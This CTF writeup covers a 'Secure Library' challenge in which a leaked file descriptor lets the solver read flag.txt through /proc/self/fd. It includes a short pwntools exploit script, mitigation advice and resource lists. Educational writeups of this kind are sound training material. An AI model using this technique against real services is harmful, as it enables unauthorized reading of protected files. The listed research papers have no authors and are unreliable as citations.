 
# 🕵️‍♀️ CTF Challenge Writeup: Breaking the "Secure" Library

## 📘 Table of Contents

1. [Challenge Overview](#challenge-overview)
2. [Background](#background)
3. [Challenge Setup](#challenge-setup)
4. [Vulnerability Analysis](#vulnerability-analysis)
5. [Exploitation Methodology](#exploitation-methodology)
6. [Detailed Walkthrough](#detailed-walkthrough)
7. [Exploit Script](#exploit-script)
8. [Learning Objectives](#learning-objectives)
9. [Recommended Mitigations](#recommended-mitigations)
10. [Additional Resources](#additional-resources)
11. [References](#references)

## 🏁 Challenge Overview

### Challenge Details

- **Name**: Secure Library  
- **Type**: Pwn / File Descriptor Exploit  
- **Difficulty**: Easy  
- **Platform**: Linux Docker Container  
- **Key Concept**: File Descriptor Manipulation  

## 🌍 Background

///Users/sfellahi/Desktop/Akasec-CTF-Writeups/Screen Shot 2024-11-26 at 11.47.53 AM.png
### The Cybersecurity Landscape  
In the world of cybersecurity, seemingly secure systems often hide subtle vulnerabilities. This challenge exemplifies how a small implementation detail can compromise an entire security model.

### Context of File Descriptors  
File descriptors are fundamental to how operating systems manage file and I/O operations. They're like unique identifiers for open files, network sockets, and other I/O resources.

## 🔬 Challenge Setup

### Environment

- **Container**: Docker  
- **Port**: 4041  
- **Primary Vulnerability**: File Descriptor Leakage  

### Initial Interaction  
When you first connect to the challenge, you're presented with a library-like interface that appears to have strict file access controls.

## 🕳️ Vulnerability Analysis

### The Core Vulnerability: FD Leakage  
The challenge introduces a critical vulnerability through improper file descriptor management. When the program opens `flag.txt`, it fails to close the file descriptor, leaving an exploitable pathway.

### Technical Deep Dive  

- **File Descriptor**: A unique integer identifier for an open file  
- **Vulnerability Location**: `/proc/self/fd/` filesystem  
- **Exploit Mechanism**: Accessing open file descriptors directly  

#### Linux Proc Filesystem Explained  
The `/proc` filesystem is a pseudo-filesystem that provides an interface to kernel data structures. `/proc/self/fd/` contains symbolic links to all currently open file descriptors for the running process.

## 🚀 Exploitation Methodology

### Exploitation Steps  

1. Open the flag file (creating an unclosed file descriptor)  
2. Identify the file descriptor number  
3. Access the file directly through `/proc/self/fd/`  
4. Retrieve the flag content  

### Exploit Technique Breakdown  

```python
from pwn import *

# Connection Setup
conn = remote(HOST, PORT)

# Step 1: Open flag file
conn.sendline(b'2')  # Open file option
conn.sendline(b'flag.txt')

# Step 2: Access via proc filesystem
conn.sendline(b'2')
conn.sendline(b'/proc/self/fd/6')

# Step 3: Read contents
conn.sendline(b'3')
print(conn.recvall().decode())
conn.close()
```

## 🧠 Learning Objectives

### Key Takeaways

- Importance of proper resource management  
- Understanding file descriptor lifecycles  
- Exploring Linux filesystem internals  
- Recognizing subtle security vulnerabilities  

## 🔒 Recommended Mitigations

### Code-Level Fixes

- Always close file descriptors after use  
- Implement context managers  
- Use `with` statements in Python  
- Add input validation for file paths  
- Implement strict access control mechanisms  

#### Example Mitigation

```python
def read_secure_file(filename):
    try:
        with open(filename, 'r') as file:
            # Proper file handling with automatic closure
            return file.read()
    except PermissionError:
        log_security_event()
```

## 📚 Additional Resources

### Books for Deep Learning  

- **"The Linux Programming Interface"** by Michael Kerrisk  
  - Comprehensive guide to Linux system programming  
  - Detailed explanation of file descriptors and process management  

- **"Hacking: The Art of Exploitation"** by Jon Erickson  
  - Classic text on low-level system vulnerabilities  
  - In-depth exploration of exploitation techniques  

- **"Practical Malware Analysis"** by Michael Sikorski  
  - Advanced techniques for understanding system-level vulnerabilities  
  - Comprehensive malware analysis approaches  

### Online Learning Platforms  

- Hack The Box  
- TryHackMe  
- OverTheWire Bandit Wargames  

### CTF Training Resources  

- PicoCTF  
- CTFlearn  
- Root-Me  

### Technical Documentation  

- Linux Manual Pages  
- Linux Kernel Documentation  

## 🔗 References

- Linux Proc Filesystem Documentation  
- POSIX File Descriptor Standards  

### 🎓 Academic and Research Papers  

- "File Descriptor Management in Modern Operating Systems"  
- "Security Implications of Resource Leakage in System Programming"  

## 🚨 Ethical Considerations

- Always obtain proper authorization before testing vulnerabilities  
- Use exploits and knowledge responsibly  
- Respect system and network boundaries  

## 🌟 Final Thoughts

Cybersecurity is a continuous learning journey. Each vulnerability is an opportunity to understand systems more deeply and improve security practices.  
Happy and Ethical Hacking! 🖥️🔐  

**Disclaimer**: This writeup is for educational purposes only. Always seek proper authorization before performing any security testing.
